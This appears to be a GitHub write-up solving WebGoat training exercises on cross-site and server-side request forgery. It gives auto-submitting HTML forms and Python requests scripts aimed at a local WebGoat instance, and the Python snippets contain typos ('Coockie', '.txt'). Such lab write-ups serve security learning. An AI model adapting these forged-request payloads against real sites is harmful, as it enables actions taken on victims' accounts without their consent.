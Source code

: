 # Request Forgeries
## Cross-Side Request Forgeries
### Number 3

![N.3](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_01.png)

We need to analyze the request and create a new file (.html) that is like this:

```
<form name="attack" action="http://localhost:8080/WebGoat/csrf/basic-get-flag" method="POST">  
     <input type="hidden" name='csrf' value='true'>  
     <input type="hidden" name='submit' value='Submit Query'>  
</form>  
<script>document.attack.submit();</script>
```

Open the page in a new tab with the Webgoat tab open and login.

Or with python, insert your coockie:

```
import requests
headers={'Coockie': ''}
print(requests.post('http://localhost:8080/WebGoat/csrf/basic-get-flag?csrf=false&submit=Submit+Query', headers=headers).txt)
```

### Number 4

![N.4](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_02.png)

We need to analyze the request and create a new file (.html) that is like this:

```
<form name="attack" action="http://localhost:8080/WebGoat/csrf/review" method="POST">  
     <input type="hidden" name='reviewText' value='Review'>  
     <input type="hidden" name='stars' value='5'>  
     <input type="hidden" name='validateReq' value='2aa14227b9a13d0bede0388a7fba9aa9'>  
</form>  
<script>document.attack.submit();</script> 
```

Open the page in a new tab with the Webgoat tab open and login.

We can do it in python like this:

```
import requests
headers={'Coockie': ''}
data='reviewText=Amazing+Review&stars=5&validateReq=2aa14227b9a13d0bede0388a7fba9aa9'
print(requests.post('http://localhost:8080/WebGoat/csrf/review', headers=headers, data=data).txt)
```

### Number 7

![N.7](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_03.png)

We need to analyze the request and create a new file (.html) that is like this:

```
<form name="attack" enctype="text/plain" action="http://localhost:8080/WebGoat/csrf/feedback/message" method="POST">
     <input type="hidden" name='{"name": "Test", "email": "test@test.com", "subject": "service", "message":"test"}'>
</form>  
<script>document.attack.submit();</script>
```

Open the page in a new tab with the Webgoat tab open and login.

### Number 8

![N.8](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_04.png)

## Server-Side Request Forgery

### Number 2

![N.2](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_05.png)

We need to change the request

![Original request](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_06.png)

![New request](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_07.png)

### Number 3

![N.3](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_08.png)

We need to change the request

![Original request](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_09.png)

![New request](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/08_2013_10.png)